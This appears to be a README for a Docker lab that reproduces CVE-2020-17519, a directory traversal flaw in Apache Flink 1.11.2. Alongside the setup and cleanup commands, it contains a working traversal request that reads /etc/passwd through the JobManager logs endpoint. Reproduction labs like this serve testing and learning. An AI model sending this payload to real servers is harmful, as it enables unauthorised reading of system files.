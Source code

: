 # CVE-2020-17519 Docker Test Environment

This repository provides a minimal Docker Compose setup that reproduces **CVE-2020-17519** using a vulnerable Apache Flink JobManager (version 1.11.2).

## Services
- **db** – MariaDB 10.5 used as a simple backend (optional for other tests).
- **jobmanager** – Apache Flink JobManager running version **1.11.2**. The vulnerable directory‑traversal endpoint is exposed on port **8081**.
- **taskmanager** – Apache Flink TaskManager required for a functional Flink cluster.

## Getting Started
```bash
# From the directory containing docker-compose.yml
docker compose up -d
```
The Flink JobManager UI and REST API will be reachable at `http://localhost:8081`.

### Testing the Vulnerability
You can verify the directory‑traversal issue with a request such as:
```
GET /jobmanager/logs/..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: localhost:8081
```
The response should contain the contents of the targeted file if the vulnerability is present.

## Cleanup
```bash
docker compose down -v
```